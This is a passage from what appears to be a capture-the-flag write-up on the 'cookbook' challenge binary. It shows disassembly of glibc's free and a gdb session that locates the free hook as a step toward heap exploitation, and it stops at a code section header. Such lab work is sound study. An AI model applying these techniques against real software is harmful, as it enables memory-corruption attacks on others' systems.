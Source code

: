 ```
   0xf7e6ae50 <free+144>:	sub    esp,0x8
   0xf7e6ae53 <free+147>:	push   DWORD PTR [esp+0x14]
   0xf7e6ae57 <free+151>:	push   ecx
   0xf7e6ae58 <free+152>:	call   eax
```

Here we can see it calls `eax` which has the web hook from the previous block. Let's see where the free hook is in memory:

```
gdb-peda$ b free
Breakpoint 1 at 0x8048530
gdb-peda$ r
Starting program: /Hackery/bkp16/cookbook/cookbook 
what's your name?
guyinatuxedo
+-----------------------------+
|          .--,--.            |
|          `.  ,.'            |
|           |___|             |
|           :o o:             |
|          _`~^~'             |
|        /'   ^   `\          |
| cooking manager pro v6.1... |
+-----------------------------+
====================
[l]ist ingredients
[r]ecipe book
[a]dd ingredient
[c]reate recipe
[e]xterminate ingredient
[d]elete recipe
[g]ive your cookbook a name!
[R]emove cookbook name
[q]uit
g
how long is the name of your cookbook? (hex because you're both a chef and a hacker!) : 0x50
15935728
the new name of the cookbook is 15935728

====================
[l]ist ingredients
[r]ecipe book
[a]dd ingredient
[c]reate recipe
[e]xterminate ingredient
[d]elete recipe
[g]ive your cookbook a name!
[R]emove cookbook name
[q]uit
R

[----------------------------------registers-----------------------------------]
EAX: 0x804f2b0 ("15935728\n")
EBX: 0xffffd130 --> 0x1 
ECX: 0xffffd0f2 --> 0xa5000a52 
EDX: 0xf7faf87c --> 0x0 
ESI: 0x1 
EDI: 0xf7fae000 --> 0x1b5db0 
EBP: 0xffffd048 --> 0xffffd108 --> 0xffffd118 --> 0x0 
ESP: 0xffffd02c --> 0x8048b62 (add    esp,0x10)
EIP: 0xf7e6adc0 (<free>:	push   ebx)
EFLAGS: 0x292 (carry parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
```